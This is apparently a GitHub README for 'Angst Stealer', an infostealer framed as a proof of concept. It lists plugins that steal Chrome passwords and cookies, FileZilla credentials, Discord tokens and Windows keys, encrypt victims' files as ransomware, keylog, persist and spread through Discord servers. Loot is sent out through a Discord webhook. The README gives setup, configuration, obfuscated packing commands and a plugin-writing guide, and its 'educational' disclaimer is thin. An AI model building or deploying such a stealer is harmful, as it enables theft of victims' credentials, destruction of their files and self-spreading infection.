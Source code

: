 ## Angst Stealer
AngstStealer is a POC malware which is designed to highlight and utilize Discord as an attack vector. While it is fully functioning it was created for educational purpose's, please do not use misuse this tool. Angst Stealer currently has a total of 6 plugins:

|Plugin |Description |
|------ |----------- |
|Chrome | The chrome plugin dumps all of the users passwords, websites, and usernames. |
|Filezilla | Checks to see if the user has Filezilla installed, if they do then it dumps stored Filezilla creds. |
| Ransomware | Encrypts all files on the victims computer, drops a note also. |
| Discord | Dumps discord token for Chrome and Discord. |
| Send | Zips and sends all the files through the Discord webhook. |
| User | Drops userdata about the victim such as IP, Username and Computername. |
| Windows | Also drops the windows activation key for the victims computer. |
|UnOfficial |Description |
|------ |----------- |
| Post Exploitation | Persistance + keylogger, file dropper included. Author: <a href="https://github.com/TheDebianGuy">TheDebianGuy</a> |
| Discord Spreader | Sends itself in all servers the user is in. Author: <a href="https://github.com/TheDebianGuy">TheDebianGuy</a> Idea: char#9249 |

### Setup
1. Install python [here](https://www.python.org/ftp/python/3.7.7/python-3.7.7-amd64.exe)
2. Clone this repo using `git clone https://github.com/backslash/AngstStealer` or manually download it.
3. Run `cd folderpath` so that you are inside the directory itself.
4. Install the required libraries using `pip install -r requirements.txt`
5. Inside the main file you will see a config template, modify it so it matches your requirements.
```
CONFIG = {
    "webhook" : "",
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True,
	"postexploit": True,
	"discordspread": True
    }
}

```

webhook -> The discord webhook link which you want it to use. </br>
chrome -> If it should include chrome passwords </br>
filezilla -> Should it include possible saved filezilla passwords</br>
windows -> Give information about your victim & includes the windows key</br>
discord -> Steal discord tokens</br>
screenshot -> takes a screenshot</br>
postexploit -> persistance with keylogger</br>
discordspread -> sends itself in all servers user is in</br>
</br>
6. Run one of the following commands listed below, it is worth noting that pyarmor will sometimes corrupt the executable so if you plan on using the pyarmor command you should test it locally to make sure it works.</br>
`PYINSTALLER: pyinstaller --onefile --hidden-import=pkg_resources.py2_warn angst.py`</br>
`PYARMOR: pyarmor pack -e " --onefile --hidden-import=pkg_resources.py2_warn" angst.py`</br>

### To Do List
- [x] Add cookie support (just got lazy and forgot)
- [ ] Add more browsers
- [x] Implement some anti-vm tricks.
- [ ] Add more plugins

### Adding Plugins
Adding custom plugins is incredibly easy, here is a short example of how you make and integrate your own custom plugin for Angst:

1. First off you will want to create your plugin preferably in your plugins folder. The plugin can have as many function as needed, the example I provided below has one function called retrieve_data which will retrieve our sensitive data. Our dump function is needed for proper plugin integration because this is how all the functions know to dump there data.
```python
import requests

class ExamplePlugin(object):
	def __init__(self):
		self.sensitive_data = ""

	def retrieve_data(self):
		view_website = requests.get("https://api.ipify.org")
		self.sensitve_data = view_website.text

	def dump(self):
		self.retrieve_data()
		return self.sensitive_data
	
```
2. Next we want to add our example function to our main file which is `angst.py` in our `angst.py` do 
```from plugins.exampleplugin import ExamplePlugin```
change your import name on whatever you named your file and whatever you called the plugin class. 
3. Lastly we want to add it to our `config["software"]` and the `self.plugins` as show below.
```
    "software": {
        "chrome" : True,
        "chromecookies": True,
        "filezilla": True,
        "discord": True,
        "screenshot": True,
        "windows": True,
	"postexploit": True,
	"discordspread": True
    }
```
```
self.plugins = {
            "chrome": Chrome(),
            "chromecookies": Cookies(),
            "filezilla": Filezilla(),
            "discord": Discord(),
            "screenshot": Screenshot(),
            "windows": Windows(),
	    "postexploit": PostExploit()
        }
```
Make sure you use the exact same name when you put it under the config and self.plugins since it is case sensitive.


### Additional
Use this responsibly, I made this just as a demonstration of a POC. The fact that Discord still hasn't implemented any safegaurds or preventive measures when it comes to something like this is kind've embarrasing. Regardless though, using this without the consent of the computer owner is illegal.
